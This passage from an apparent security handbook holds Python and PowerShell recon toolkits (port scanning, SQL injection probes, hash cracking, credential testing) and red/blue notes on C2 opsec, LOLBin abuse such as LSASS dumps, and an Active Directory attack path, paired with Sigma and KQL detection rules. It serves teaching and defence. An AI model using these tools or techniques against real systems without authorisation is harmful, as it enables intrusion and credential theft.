    def port_scanner(self, target, ports=range(1, 1001)):
        """Scan ports on target host"""
        print(f"[*] Scanning {target} for open ports...")
        open_ports = []
        
        def scan_port(port):
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(1)
            result = sock.connect_ex((target, port))
            if result == 0:
                open_ports.append(port)
                print(f"[+] Port {port} is open")
            sock.close()
        
        threads = []
        for port in ports:
            thread = threading.Thread(target=scan_port, args=(port,))
            threads.append(thread)
            thread.start()
        
        for thread in threads:
            thread.join()
        
        self.results['open_ports'] = sorted(open_ports)
        return open_ports
    
    def banner_grabbing(self, target, ports):
        """Grab service banners"""
        print(f"[*] Grabbing banners from {target}...")
        banners = {}
        
        for port in ports:
            try:
                sock = socket.socket()
                sock.settimeout(2)
                sock.connect((target, port))
                
                # Send probe
                sock.send(b"HEAD / HTTP/1.0\r\n\r\n")
                banner = sock.recv(1024).decode('utf-8', errors='ignore')
                
                banners[port] = banner.strip()
                print(f"[+] Port {port}: {banner[:50]}...")
                
                sock.close()
            except:
                pass
        
        self.results['banners'] = banners
        return banners
    
    def web_vulnerability_scanner(self, url):
        """Basic web vulnerability scanner"""
        print(f"[*] Scanning {url} for vulnerabilities...")
        vulnerabilities = []
        
        # Check for common files
        common_files = [
            '/admin', '/login', '/wp-admin', '/phpmyadmin',
            '/backup.sql', '/.git', '/.env', '/config.php'
        ]
        
        for file in common_files:
            test_url = url + file
            try:
                response = requests.get(test_url, timeout=3)
                if response.status_code == 200:
                    vulnerabilities.append({
                        'type': 'Exposed File',
                        'url': test_url,
                        'status': response.status_code
                    })
                    print(f"[!] Found: {test_url}")
            except:
                pass
        
        # Check for SQL injection
        sql_payloads = ["'", "' OR '1'='1", "1' OR '1' = '1"]
        for payload in sql_payloads:
            test_url = f"{url}?id={payload}"
            try:
                response = requests.get(test_url, timeout=3)
                if "sql" in response.text.lower() or "mysql" in response.text.lower():
                    vulnerabilities.append({
                        'type': 'Possible SQL Injection',
                        'url': test_url,
                        'payload': payload
                    })
                    print(f"[!] Possible SQLi: {test_url}")
            except:
                pass
        
        self.results['web_vulns'] = vulnerabilities
        return vulnerabilities
    
    def hash_cracker(self, hash_value, wordlist_path):
        """Crack hash using wordlist"""
        print(f"[*] Cracking hash: {hash_value}")
        
        hash_types = {
            32: 'MD5',
            40: 'SHA1',
            64: 'SHA256'
        }
        
        hash_type = hash_types.get(len(hash_value), 'Unknown')
        print(f"[*] Detected hash type: {hash_type}")
        
        try:
            with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
                for line in f:
                    word = line.strip()
                    
                    # Try different hash types
                    if len(hash_value) == 32:
                        test_hash = hashlib.md5(word.encode()).hexdigest()
                    elif len(hash_value) == 40:
                        test_hash = hashlib.sha1(word.encode()).hexdigest()
                    elif len(hash_value) == 64:
                        test_hash = hashlib.sha256(word.encode()).hexdigest()
                    else:
                        continue
                    
                    if test_hash == hash_value.lower():
                        print(f"[+] Hash cracked! Password: {word}")
                        return word
        except FileNotFoundError:
            print(f"[-] Wordlist not found: {wordlist_path}")
        
        print("[-] Hash not cracked")
        return None
    
    def network_sniffer(self, interface='eth0', count=10):
        """Capture a bounded number of packets on a validated interface."""
        import os
        import re
        from pathlib import Path

        if not isinstance(interface, str) or not re.fullmatch(r"[A-Za-z0-9_.:-]{1,32}", interface):
            print("[-] Invalid interface name")
            return
        if isinstance(count, bool) or not isinstance(count, int) or not 1 <= count <= 1000:
            print("[-] Packet count must be an integer from 1 to 1000")
            return

        output = Path("capture.pcap")
        try:
            # Exclusive creation prevents overwriting a previous capture.
            fd = os.open(output, os.O_WRONLY | os.O_CREAT | os.O_EXCL, 0o600)
            os.close(fd)
        except FileExistsError:
            print("[-] capture.pcap already exists; preserve it and choose another name")
            return

        print(f"[*] Sniffing on {interface} ({count} packets)...")
        try:
            subprocess.run(
                ["tcpdump", "-i", interface, "-c", str(count), "-w", str(output)],
                check=True,
                timeout=300,
            )
            print(f"[+] Captured packets saved to {output}")
        except (subprocess.CalledProcessError, FileNotFoundError, subprocess.TimeoutExpired, PermissionError) as exc:
            print(f"[-] Packet capture failed: {exc}")
    
    def dns_enumeration(self, domain):
        """Enumerate DNS records"""
        print(f"[*] Enumerating DNS for {domain}...")
        
        record_types = ['A', 'AAAA', 'MX', 'NS', 'TXT', 'SOA']
        dns_records = {}
        
        for rtype in record_types:
            try:
                result = subprocess.run(
                    ['dig', '+short', domain, rtype],
                    capture_output=True,
                    text=True,
                    timeout=5
                )
                if result.stdout.strip():
                    dns_records[rtype] = result.stdout.strip().split('\n')
                    print(f"[+] {rtype}: {dns_records[rtype]}")
            except:
                pass
        
        self.results['dns'] = dns_records
        return dns_records
    
    def generate_report(self, output_file='security_report.html'):
        """Generate HTML report of findings"""
        html = f"""
        <!DOCTYPE html>
        <html>
        <head>
            <title>Security Assessment Report</title>
            <style>
                body {{ font-family: Arial; margin: 40px; }}
                h1 {{ color: #333; }}
                h2 {{ color: #666; border-bottom: 2px solid #666; }}
                .vulnerability {{ background: #ffe6e6; padding: 10px; margin: 10px 0; }}
                .info {{ background: #e6f3ff; padding: 10px; margin: 10px 0; }}
            </style>
        </head>
        <body>
            <h1>Security Assessment Report</h1>
            <p>Generated: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}</p>
        """
        
        # Add open ports
        if 'open_ports' in self.results:
            html += "<h2>Open Ports</h2><ul>"
            for port in self.results['open_ports']:
                html += f"<li>Port {port}</li>"
            html += "</ul>"
        
        # Add web vulnerabilities
        if 'web_vulns' in self.results:
            html += "<h2>Web Vulnerabilities</h2>"
            for vuln in self.results['web_vulns']:
                html += f"<div class='vulnerability'>"
                html += f"<strong>{vuln['type']}</strong><br>"
                html += f"URL: {vuln['url']}<br>"
                html += "</div>"
        
        html += "</body></html>"
        
        with open(output_file, 'w') as f:
            f.write(html)
        
        print(f"[+] Report saved to {output_file}")

# Example usage
if __name__ == "__main__":
    toolkit = SecurityToolkit()
    
    # Port scanning
    target = "192.168.1.100"
    open_ports = toolkit.port_scanner(target, range(1, 101))
    
    # Banner grabbing
    if open_ports:
        toolkit.banner_grabbing(target, open_ports[:5])
    
    # Web scanning
    # toolkit.web_vulnerability_scanner("http://example.com")
    
    # Generate report
    toolkit.generate_report()
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## PowerShell Security Tools

### PowerShell Security Toolkit

```powershell
# security_toolkit.ps1 - PowerShell security tools

function Invoke-PortScan {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Target,
        
        [int[]]$Ports = 1..1000
    )
    
    Write-Host "[*] Scanning $Target for open ports..." -ForegroundColor Yellow
    $OpenPorts = @()
    
    foreach ($Port in $Ports) {
        $Socket = New-Object System.Net.Sockets.TcpClient
        try {
            $Socket.Connect($Target, $Port)
            if ($Socket.Connected) {
                Write-Host "[+] Port $Port is open" -ForegroundColor Green
                $OpenPorts += $Port
            }
            $Socket.Close()
        }
        catch {
            # Port closed
        }
    }
    
    return $OpenPorts
}

function Get-ServiceBanner {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Target,
        
        [Parameter(Mandatory=$true)]
        [int]$Port
    )
    
    $Socket = New-Object System.Net.Sockets.TcpClient
    try {
        $Socket.Connect($Target, $Port)
        $Stream = $Socket.GetStream()
        $Writer = New-Object System.IO.StreamWriter($Stream)
        $Reader = New-Object System.IO.StreamReader($Stream)
        
        # Send HTTP request
        $Writer.WriteLine("HEAD / HTTP/1.0")
        $Writer.WriteLine("")
        $Writer.Flush()
        
        # Read response
        Start-Sleep -Milliseconds 500
        $Banner = ""
        while ($Stream.DataAvailable) {
            $Banner += $Reader.ReadLine() + "`n"
        }
        
        $Socket.Close()
        return $Banner
    }
    catch {
        return $null
    }
}

function Invoke-DNSEnumeration {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Domain
    )
    
    Write-Host "[*] Enumerating DNS for $Domain..." -ForegroundColor Yellow
    
    $RecordTypes = @('A', 'AAAA', 'MX', 'NS', 'TXT', 'SOA', 'CNAME')
    $Results = @{}
    
    foreach ($Type in $RecordTypes) {
        try {
            $Records = Resolve-DnsName -Name $Domain -Type $Type -ErrorAction SilentlyContinue
            if ($Records) {
                $Results[$Type] = $Records
                Write-Host "[+] $Type Records:" -ForegroundColor Green
                $Records | Format-Table
            }
        }
        catch {
            # Record type not found
        }
    }
    
    return $Results
}

function Get-NetworkConnections {
    Write-Host "[*] Getting active network connections..." -ForegroundColor Yellow
    
    $Connections = Get-NetTCPConnection | Where-Object {
        $_.State -eq 'Established'
    } | Select-Object LocalAddress, LocalPort, RemoteAddress, RemotePort, State, OwningProcess
    
    foreach ($Conn in $Connections) {
        $Process = Get-Process -Id $Conn.OwningProcess
        $Conn | Add-Member -NotePropertyName ProcessName -NotePropertyValue $Process.Name
    }
    
    return $Connections
}

function Invoke-RegistrySearch {
    param(
        [Parameter(Mandatory=$true)]
        [string]$SearchTerm
    )
    
    Write-Host "[*] Searching registry for '$SearchTerm'..." -ForegroundColor Yellow
    
    $RegistryPaths = @(
        "HKLM:\SOFTWARE",
        "HKLM:\SYSTEM",
        "HKCU:\SOFTWARE"
    )
    
    $Results = @()
    
    foreach ($Path in $RegistryPaths) {
        try {
            Get-ChildItem -Path $Path -Recurse -ErrorAction SilentlyContinue | 
                Get-ItemProperty -ErrorAction SilentlyContinue | 
                Where-Object { $_ -match $SearchTerm } |
                ForEach-Object {
                    $Results += [PSCustomObject]@{
                        Path = $_.PSPath
                        Value = $_
                    }
                }
        }
        catch {
            # Access denied or path not found
        }
    }
    
    return $Results
}

function Get-InstalledSoftware {
    Write-Host "[*] Enumerating installed software..." -ForegroundColor Yellow
    
    $Software = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |
        Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
        Where-Object { $_.DisplayName -ne $null }
    
    $Software += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* |
        Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
        Where-Object { $_.DisplayName -ne $null }
    
    return $Software | Sort-Object DisplayName -Unique
}

function Get-RunningServices {
    Write-Host "[*] Getting running services..." -ForegroundColor Yellow
    
    $Services = Get-Service | Where-Object {
        $_.Status -eq 'Running'
    } | Select-Object Name, DisplayName, Status, StartType
    
    return $Services
}

function Test-Credentials {
    param(
        [Parameter(Mandatory=$true)]
        [string]$Username,
        
        [Parameter(Mandatory=$true)]
        [string]$Password,
        
        [Parameter(Mandatory=$true)]
        [string]$Target
    )
    
    Write-Host "[*] Testing credentials on $Target..." -ForegroundColor Yellow
    
    $SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
    $Credential = New-Object System.Management.Automation.PSCredential($Username, $SecurePassword)
    
    try {
        $Session = New-PSSession -ComputerName $Target -Credential $Credential -ErrorAction Stop
        if ($Session) {
            Write-Host "[+] Credentials are valid!" -ForegroundColor Green
            Remove-PSSession $Session
            return $true
        }
    }
    catch {
        Write-Host "[-] Credentials are invalid" -ForegroundColor Red
        return $false
    }
}

function Get-UserInfo {
    Write-Host "[*] Gathering user information..." -ForegroundColor Yellow
    
    $UserInfo = @{
        CurrentUser = $env:USERNAME
        ComputerName = $env:COMPUTERNAME
        Domain = $env:USERDOMAIN
        LogonServer = $env:LOGONSERVER
        UserProfile = $env:USERPROFILE
        IsAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
    }
    
    # Get local users
    $LocalUsers = Get-LocalUser | Select-Object Name, Enabled, LastLogon
    $UserInfo['LocalUsers'] = $LocalUsers
    
    # Get local groups
    $LocalGroups = Get-LocalGroup | Select-Object Name, Description
    $UserInfo['LocalGroups'] = $LocalGroups
    
    return $UserInfo
}

function New-SecurityReport {
    param(
        [string]$OutputFile = "security_report.html"
    )
    
    Write-Host "[*] Generating security report..." -ForegroundColor Yellow
    
    $HTML = @"
<!DOCTYPE html>
<html>
<head>
    <title>Security Assessment Report</title>
    <style>
        body { font-family: Arial; margin: 40px; }
        h1 { color: #333; }
        h2 { color: #666; border-bottom: 2px solid #666; }
        table { border-collapse: collapse; width: 100%; margin: 20px 0; }
        th, td { border: 1px solid #ddd; padding: 8px; text-align: left; }
        th { background-color: #4CAF50; color: white; }
    </style>
</head>
<body>
    <h1>Security Assessment Report</h1>
    <p>Generated: $(Get-Date -Format "yyyy-MM-dd HH:mm:ss")</p>
    <p>Computer: $env:COMPUTERNAME</p>
    
    <h2>System Information</h2>
    <table>
        <tr><th>Property</th><th>Value</th></tr>
        <tr><td>OS Version</td><td>$(Get-CimInstance Win32_OperatingSystem | Select-Object -ExpandProperty Caption)</td></tr>
        <tr><td>OS Build</td><td>$(Get-CimInstance Win32_OperatingSystem | Select-Object -ExpandProperty BuildNumber)</td></tr>
        <tr><td>System Type</td><td>$(Get-CimInstance Win32_ComputerSystem | Select-Object -ExpandProperty SystemType)</td></tr>
    </table>
    
    <h2>Running Services</h2>
    <table>
        <tr><th>Name</th><th>Display Name</th><th>Status</th><th>Start Type</th></tr>
"@
    
    Get-Service | Where-Object { $_.Status -eq 'Running' } | ForEach-Object {
        $HTML += "<tr><td>$($_.Name)</td><td>$($_.DisplayName)</td><td>$($_.Status)</td><td>$($_.StartType)</td></tr>`n"
    }
    
    $HTML += @"
    </table>
    
    <h2>Network Connections</h2>
    <table>
        <tr><th>Local</th><th>Remote</th><th>State</th><th>Process</th></tr>
"@
    
    Get-NetTCPConnection | Where-Object { $_.State -eq 'Established' } | Select-Object -First 20 | ForEach-Object {
        $Process = Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue
        $HTML += "<tr><td>$($_.LocalAddress):$($_.LocalPort)</td><td>$($_.RemoteAddress):$($_.RemotePort)</td><td>$($_.State)</td><td>$($Process.Name)</td></tr>`n"
    }
    
    $HTML += @"
    </table>
</body>
</html>
"@
    
    $HTML | Out-File -FilePath $OutputFile -Encoding UTF8
    Write-Host "[+] Report saved to $OutputFile" -ForegroundColor Green
}

# Example usage
Write-Host "=== PowerShell Security Toolkit ===" -ForegroundColor Cyan
Write-Host ""
Write-Host "Available functions:" -ForegroundColor Yellow
Write-Host "  Invoke-PortScan -Target <IP>"
Write-Host "  Get-ServiceBanner -Target <IP> -Port <PORT>"
Write-Host "  Invoke-DNSEnumeration -Domain <DOMAIN>"
Write-Host "  Get-NetworkConnections"
Write-Host "  Get-InstalledSoftware"
Write-Host "  Get-UserInfo"
Write-Host "  New-SecurityReport -OutputFile <FILE>"
Write-Host ""

# Auto-generate report
# New-SecurityReport
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

---
 
# PART 6: OPERATIONAL TRADECRAFT
 
---
 
## Tradecraft Overview
 
Operational tradecraft reference covering the full offensive/defensive cycle -
C2 frameworks, evasion techniques, living-off-the-land, OSINT methodology,
network detection, and Active Directory. Each file is dual-perspective:
offensive technique context + detection artifacts + defensive hardening.
 
### File Index
 
| File | What's Inside | Primary Use |
|---|---|---|
| [c2-frameworks.md](Tradecraft/c2-frameworks.md) | Cobalt Strike, Sliver, Havoc, malleable C2, redirectors, OpSec, JA3/YARA detection | Red/Blue |
| [av-edr-evasion.md](Tradecraft/av-edr-evasion.md) | Static evasion, AMSI/ETW bypass recognition, API hooks, syscalls, injection, sleep obfuscation, FLARE VM/REMnux/Volatility | Blue/Purple |
| [lolbins-lolbas.md](Tradecraft/lolbins-lolbas.md) | certutil, mshta, regsvr32, wmic, comsvcs.dll, xfreerdp - execution, download, lateral movement, persistence, cred access | Red/Blue |
| [osint-threat-intel.md](Tradecraft/osint-threat-intel.md) | OSINT methodology, Maltego, SpiderFoot, Shodan, amass, trufflehog, MISP, OpenCTI, IOC lifecycle, investigator OPSEC | OSINT/CTI |
| [network-detection.md](Tradecraft/network-detection.md) | Zeek, Suricata, Wireshark, pktmon, Defender for Endpoint KQL, C2 beacon detection, DNS tunneling, network forensics | Blue/NSM |
| [active-directory.md](Tradecraft/active-directory.md) | BloodHound, PowerView, Rubeus, Mimikatz, Impacket, Kerberos attacks, domain persistence, Sigma rules, hardening | Red/Blue |
 
### MITRE ATT&CK Coverage
 
```
TA0043 Reconnaissance       → osint-threat-intel.md
TA0011 Command & Control    → c2-frameworks.md, network-detection.md
TA0005 Defense Evasion      → av-edr-evasion.md, lolbins-lolbas.md
TA0002 Execution            → lolbins-lolbas.md
TA0008 Lateral Movement     → lolbins-lolbas.md, active-directory.md
TA0006 Credential Access    → active-directory.md, lolbins-lolbas.md
TA0004 Privilege Escalation → active-directory.md
TA0003 Persistence          → active-directory.md, lolbins-lolbas.md
TA0010 Exfiltration         → network-detection.md
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## C2 Frameworks
 
*Full reference: [Tradecraft/c2-frameworks.md](Tradecraft/c2-frameworks.md)*
 
### Framework Comparison
 
| Framework | Language | License | Implant | Key Strength |
|---|---|---|---|---|
| **Cobalt Strike** | Java (server) | Commercial | Beacon (C) | Most mature, widest tooling ecosystem |
| **Sliver** | Go | Open source | Demon (Go) | mTLS, WireGuard, active development |
| **Havoc** | C/C++, Go | Open source | Demon (C) | Native indirect syscalls, sleep obfuscation |
 
### C2 Architecture
 
```
[Operator] ──► [Team Server] ──► [Redirector VPS] ──► [Implant on Target]
                                        │
                              Nginx with URI filtering
                              Only forwards known beacon paths
                              Everything else → legitimate site
```
 
### Key Operational Concepts
 
- **Sleep/Jitter:** `sleep 300 60` = 5-minute sleep, 60% jitter - minimum for OpSec
- **Spawnto:** Override default fork-and-run binary - default `WerFault.exe` is signatured
- **Malleable C2:** Profile that makes beacon traffic mimic legitimate services (Windows Update, CDN)
- **SMB Beacon:** Named pipe C2 for lateral movement inside network, no internet required
- **Redirectors:** Never expose team server directly - always proxy through a VPS with URI filtering
### Detection Signatures
 
```yaml
# Sigma - C2 beacon timing pattern
title: Regular Interval Outbound Connection
logsource:
    category: network_connection
detection:
    selection:
        Initiated: 'true'
        DestinationPort:
            - 80
            - 443
    timeframe: 1h
    condition: selection | count() > 10 by SourceIp,DestinationIp
    aggregate: stddev(interval) < 5   # low jitter = beacon
level: medium
```
 
**Key IOCs:**
- Regular callback intervals (low standard deviation in connection timing)
- HTTP POST with consistent small body size (check-in)
- TLS certificates to domains < 30 days old
- JA3 hash `6734f37431670b3ab4292b8f60f29984` = Cobalt Strike default profile
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## AV/EDR Evasion - Recognition & Defense
 
*Full reference: [Tradecraft/av-edr-evasion.md](Tradecraft/av-edr-evasion.md)*
 
### Detection Layer Stack
 
```
Layer 1: Static Signatures        ← AV, hash matching, YARA
Layer 2: AMSI                     ← PowerShell/script content scanning
Layer 3: ETW Providers            ← Kernel + user-mode telemetry
Layer 4: Kernel Callbacks         ← Process/thread/image load events
Layer 5: User-Mode API Hooks      ← ntdll.dll inline hooks
Layer 6: Behavioral Analytics     ← ML models, anomaly detection
Layer 7: Network Inspection       ← DNS, TLS metadata
```
 
### Recognition Patterns
 
**AMSI bypass in Script Block Log (Event 4104) - what to look for:**
```
Any of these strings appearing together = bypass attempt:
  AmsiScanBuffer, AmsiInitialize, amsiContext, amsiInitFailed
  [Ref].Assembly.GetType, GetField, NonPublic, SetValue
```
 
**Patched ntdll function - what it looks like in memory:**
```asm
; AmsiScanBuffer PATCHED - bypass succeeded
B8 57 00 07 80    mov eax, 0x80070057   ← hardcoded "clean" return
C3                ret                   ← immediate return, no scan
 
; EtwEventWrite PATCHED - ETW silenced
C3                ret                   ← single byte patch, function does nothing
```
 
**Process injection Sysmon signatures:**
```
Event 8  (CreateRemoteThread)   ← thread injected into another process
Event 10 (ProcessAccess)        ← cross-process memory access
Event 25 (ProcessTampering)     ← process hollowing detected
MEM_PRIVATE + PAGE_EXECUTE      ← RX memory not backed by a file = shellcode
```
 
### Analysis Environments
 
**Windows - FLARE VM:**
Install only in a clean, disposable malware-analysis VM; take a snapshot first.
Follow Mandiant's current [FLARE-VM installation instructions](https://github.com/mandiant/flare-vm)
and review the installer from the official repository before running it. Keep the
execution-policy change scoped to this PowerShell process.
```powershell
Set-ExecutionPolicy Unrestricted -Scope Process -Force
Unblock-File .\install.ps1
.\install.ps1
# Key tools: x64dbg, Ghidra, PE-bear, Procmon, Process Hacker,
#            Regshot, FakeNet-NG, CyberChef, dnSpy, Wireshark
```
 
**Linux - REMnux:**
```bash
curl -O https://REMnux.org/remnux          # verify SHA256 against docs.remnux.org
chmod +x remnux && sudo mv remnux /usr/local/bin
sudo remnux install
# Key tools: Volatility 3, YARA, Ghidra, radare2/Cutter,
#            oledump, pdf-parser, NetworkMiner, FakeNet-NG, inetsim
```
 
**Memory scanning:**
```powershell
# PE-sieve - scan for injection/hollowing
.\pe-sieve64.exe /pid 4892
 
# Volatility 3 - memory forensics
python3 vol.py -f memory.dmp windows.malfind       # injected code
python3 vol.py -f memory.dmp windows.hollowprocesses
```
 
**CyberChef common recipes:**
```
Decode PowerShell: From Base64 → Decode text (UTF-16LE)
Decode PS cradle:  From Base64 → Gunzip → Extract strings
Decode shellcode:  From Hex → Disassemble x86/x64
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## Living Off the Land - LOLBins & LOLBAs
 
*Full reference: [Tradecraft/lolbins-lolbas.md](Tradecraft/lolbins-lolbas.md)*
 
Microsoft-signed Windows binaries abused for malicious execution, download, lateral movement,
persistence, and credential access. Already present on every Windows system, signed and trusted.
 
### High-Value LOLBins by Category
 
**Execution:**
 
| Binary | Abuse | Detection |
|---|---|---|
| `certutil.exe` | Decode/download payloads | `-urlcache`, `-decode` in cmdline |
| `mshta.exe` | Execute remote HTA/VBScript | Network connection from mshta |
| `regsvr32.exe` | Remote scriptlet execution (Squiblydoo) | Network connection from regsvr32 |
| `rundll32.exe` | Execute DLL exports, JavaScript | Unusual cmdline, network connection |
| `wmic.exe` | Remote process creation, XSL execution | Network connection, child processes |
| `installutil.exe` | Execute .NET assembly (bypasses AppLocker) | Spawning from non-admin context |
 
**Credential Access:**
 
| Binary | Abuse | Detection |
|---|---|---|
| `comsvcs.dll` via rundll32 | LSASS memory dump | `MiniDump` in cmdline, LSASS access |
| `reg.exe` | SAM/SYSTEM/SECURITY hive export | `save HKLM\SAM` in cmdline |
| `vssadmin` / `diskshadow` | Shadow copy NTDS.dit access | VSS creation + NTDS path access |
 
**LOLDrivers (BYOVD):** Vulnerable signed drivers used to kill EDR at kernel level.
Key examples: `gdrv.sys` (Gigabyte), `RTCore64.sys` (MSI Afterburner), `dbutil_2_3.sys` (Dell).
Resource: [loldrivers.io](https://www.loldrivers.io/)
 
### Detection Priorities
 
```yaml
title: Suspicious certutil Download
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\certutil.exe'
        CommandLine|contains:
            - '-urlcache'
            - '-decode'
            - 'http'
    condition: selection
level: high
 
---
 
title: LSASS Dump via comsvcs.dll
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\rundll32.exe'
        CommandLine|contains:
            - 'comsvcs'
            - 'MiniDump'
    condition: selection
level: critical
```
 
### Hardening
 
```powershell
# Attack Surface Reduction - block key LOLBin abuse paths
$rules = @(
    "d4f940ab-401b-4efc-aadc-ad5f3c50688a",  # Block Office child processes
    "3b576869-a4ec-4529-8536-b80a7769e899",  # Block JS/VBS downloaded exec
    "d1e49aac-8f56-4280-b9ba-993a6d77406c"   # Block PSExec/WMI exec
)
$rules | ForEach-Object {
    Add-MpPreference -AttackSurfaceReductionRules_Ids $_ `
        -AttackSurfaceReductionRules_Actions Enabled
}
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## OSINT & Threat Intelligence
 
*Full reference: [Tradecraft/osint-threat-intel.md](Tradecraft/osint-threat-intel.md)*
 
### OSINT Methodology Cycle
 
```
1. Planning      → Define KIQs, scope, legal authorization, OPSEC requirements
2. Collection    → Gather from passive and active sources
3. Processing    → Deduplicate, normalize, enrich
4. Analysis      → Extract meaning, identify gaps, build picture
5. Dissemination → Report, act, feed into defenses
6. Feedback      → Refine collection based on new gaps
```
 
### Core Tool Stack
 
**Passive infrastructure recon:**
```bash
# Subdomain enumeration
amass enum -passive -d target.com
subfinder -d target.com
 
# Certificate transparency
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u
 
# Shodan CLI
shodan search org:"Target Corp"
shodan domain target.com
 
# DNS records + MX (reveals email security posture)
dig target.com TXT   # SPF, DMARC, domain verification
dig _dmarc.target.com TXT
```
 
**Credential/secret exposure:**
```bash
trufflehog github --org=targetorg --only-verified   # leaked secrets in repos
h8mail -t target.com                                 # email breach check
```
 
**Brand monitoring:**
```bash
dnstwist --registered target.com     # typosquatting domains
# certstream monitoring for new certs containing your domain name
```
 
**Windows install (pip-based):**
```powershell
pip install shodan censys theHarvester dnstwist h8mail holehe maigret
# TruffleHog releases: https://github.com/trufflesecurity/trufflehog/releases
# Select a version/platform and use your approved software source. Verify any
# publisher-provided checksum/signature and record the version you install.
# Go tools: subfinder, amass, assetfinder, gau, waybackurls
```
 
### Threat Intelligence Platforms
 
| Platform | Type | Best For |
|---|---|---|
| VirusTotal | Free/Commercial | File/URL/IP/domain reputation |
| AlienVault OTX | Free | IOC sharing, community pulses |
| MISP | Free (self-hosted) | Threat sharing, STIX/TAXII, team sharing |
| OpenCTI | Free (self-hosted) | CTI platform, actor tracking, relationship mapping |
| AbuseIPDB | Free | IP reputation, abuse reports |
| GreyNoise | Free/Commercial | Distinguish targeted vs. internet background noise |
| Shodan | Free/Commercial | Internet-facing asset intelligence |
 
### IOC Lifecycle
 
```
Collection → Validation → Enrichment → Scoring → Deployment → Expiration
 
Scoring factors:
  Source reliability (1–5)
  Recency (fresh scores higher)
  Context (targeted vs. generic)
  Confidence (corroborated by multiple sources)
  Fidelity (false-positive potential)
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## Network Detection & Packet Analysis
 
*Full reference: [Tradecraft/network-detection.md](Tradecraft/network-detection.md)*
 
### NSM Stack - Linux
 
```bash
# Security Onion - full NSM stack (Zeek + Suricata + ELK)
# https://docs.securityonion.net/
 
# Standalone Zeek
sudo apt install zeek
zeek -r capture.pcap
 
# Standalone Suricata
sudo apt install suricata
suricata-update                    # update rules
suricata -r capture.pcap -l /tmp/logs/
 
# Key Zeek logs:
# conn.log   - all connections: src/dst, bytes, duration, state
# dns.log    - all DNS queries and responses
# http.log   - HTTP requests: method, host, URI, user-agent
# ssl.log    - TLS metadata: SNI, issuer, JA3/JA3S fingerprints
# files.log  - transferred files with MD5/SHA256
```
 
### Packet Capture - Windows (No Install Required)
 
```powershell
# pktmon - built-in Win10 2004+
pktmon start --capture --file C:\Temp\capture.etl
pktmon stop
pktmon etl2pcap C:\Temp\capture.etl --out C:\Temp\capture.pcap
 
# netsh trace - always available
netsh trace start capture=yes tracefile=C:\Temp\capture.etl maxsize=500
netsh trace stop
# Convert with etl2pcapng: https://github.com/microsoft/etl2pcapng
```
 
### C2 Beacon Detection
 
```python
# Detect beaconing - low jitter regular intervals in conn.log
import statistics
from collections import defaultdict
 
connections = defaultdict(list)
# [load timestamps per src→dst:port from conn.log]
 
for (src, dst, dport), timestamps in connections.items():
    if len(timestamps) < 10:
        continue
    timestamps.sort()
    intervals = [timestamps[i+1] - timestamps[i] for i in range(len(timestamps)-1)]
    mean_i = statistics.mean(intervals)
    stdev_i = statistics.stdev(intervals) if len(intervals) > 1 else 0
    jitter = stdev_i / mean_i if mean_i > 0 else 0
 
    if jitter < 0.15 and 30 < mean_i < 3600 and len(timestamps) > 15:
        print(f"[BEACON?] {src} -> {dst}:{dport} interval={mean_i:.1f}s jitter={jitter:.3f}")
```
 
### Defender for Endpoint KQL - Key Queries
 
```kusto
// Beacon timing - regular low-jitter outbound connections
DeviceNetworkEvents
| where Timestamp > ago(1h) and ActionType == "ConnectionSuccess"
| summarize Count=count(), First=min(Timestamp), Last=max(Timestamp)
    by DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort
| extend DurationMin = datetime_diff('minute', Last, First)
| extend ConnPerMin = Count * 1.0 / DurationMin
| where Count > 10 and ConnPerMin between (0.5 .. 5.0)
 
// DNS to high-entropy domains (DGA/tunnel)
DeviceEvents
| where ActionType == "DnsQueryResponse"
| extend Query = tostring(AdditionalFields.DnsQueryString)
| where strlen(Query) > 40
    and Query !contains "microsoft" and Query !contains "windows"
| summarize count() by DeviceName, Query, InitiatingProcessFileName
```
 
### Detection Priorities
 
```
High:  LSASS process access from non-security tools (Sysmon Event 10)
High:  CreateRemoteThread into non-child process (Sysmon Event 8)
High:  Regular interval outbound connections with low jitter
High:  DNS TXT queries at high volume to single domain (DNS tunnel)
Med:   TLS to newly registered domains (< 30 days)
Med:   Self-signed certificates on port 443
Med:   Large DNS responses (> 200 bytes) to single domain
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## Active Directory - Attacks & Defense
 
*Full reference: [Tradecraft/active-directory.md](Tradecraft/active-directory.md)*
 
### Attack Path Overview
 
```
Initial Access
    └──► Local Admin on Workstation
              └──► Credential Harvest (Mimikatz / LSASS)
                        ├──► Pass-the-Hash → other workstations
                        ├──► Kerberoasting → service account hashes → crack offline
                        └──► BloodHound path → ACL abuse / DA session → Domain Admin
                                    └──► DCSync → krbtgt hash
                                              └──► Golden Ticket → persistent DA
```
 
### Key Offensive Tools
 
**Enumeration (Windows):**
```powershell
# BloodHound / SharpHound - map all attack paths
.\SharpHound.exe -c All --zipfilename bh_data.zip
# Upload zip to BloodHound GUI → query shortest path to DA
 
# PowerView - manual enumeration
